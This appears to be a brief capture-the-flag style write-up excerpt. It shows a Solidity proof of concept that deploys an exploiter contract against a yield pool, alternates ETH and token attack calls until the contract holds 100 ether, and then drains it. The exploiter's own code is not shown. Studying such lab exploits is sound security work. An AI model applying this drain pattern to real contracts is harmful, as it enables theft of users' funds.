 
My POC:

```solidity
Exploiter exploiter = new Exploiter{value: 0.1 ether}(address(yieldPool));

uint256 counter = 0;
while (address(exploiter).balance < 100 ether)
{
    if (counter % 2 == 0)
    {
        exploiter.attackETH();
    }
    else
    {
        exploiter.attackToken();
    }

    counter++;
}

exploiter.drain(); 
```

This solves the testcase.